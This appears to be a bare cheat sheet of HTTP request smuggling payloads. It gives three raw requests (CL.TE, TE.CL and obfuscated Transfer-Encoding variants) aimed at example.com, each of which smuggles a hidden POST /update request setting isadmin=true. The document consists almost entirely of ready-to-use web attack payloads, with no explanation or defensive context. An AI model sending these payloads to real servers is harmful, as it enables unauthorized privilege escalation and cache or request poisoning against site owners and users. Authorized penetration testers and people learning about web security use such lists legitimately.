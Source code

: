 
## Content-Length/Transfer-Encoding
```http
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

## Transfer-Encoding/Content-Length
```http
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78

POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

## Transfer Encoding Obfuscation
```http
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```